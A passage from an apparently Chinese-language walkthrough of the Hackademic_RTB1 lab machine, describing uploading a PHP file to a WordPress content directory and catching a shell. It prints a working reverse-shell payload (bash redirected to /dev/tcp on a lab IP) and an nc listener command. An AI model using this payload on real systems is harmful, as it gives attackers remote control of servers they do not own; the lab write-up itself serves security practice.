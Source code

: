     ![image.png](image%203.png)
    
2. 上传getshell.php
    
    ![image.png](image%204.png)
    
    文件内容是：
    
    ```php
    // getshell.php
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.75.131/1234 0>&1'"); ?>
    ```
    
    上传成功,并且返回路径 `/Hackademic_RTB1/wp-content/getshell.php`
    
3. 反弹shell
    
    首先Kali先开启监听，监听`1234`端口
    
    ```php
    nc -lvp 1234                             
    listening on [any] 1234 ...
    ```
    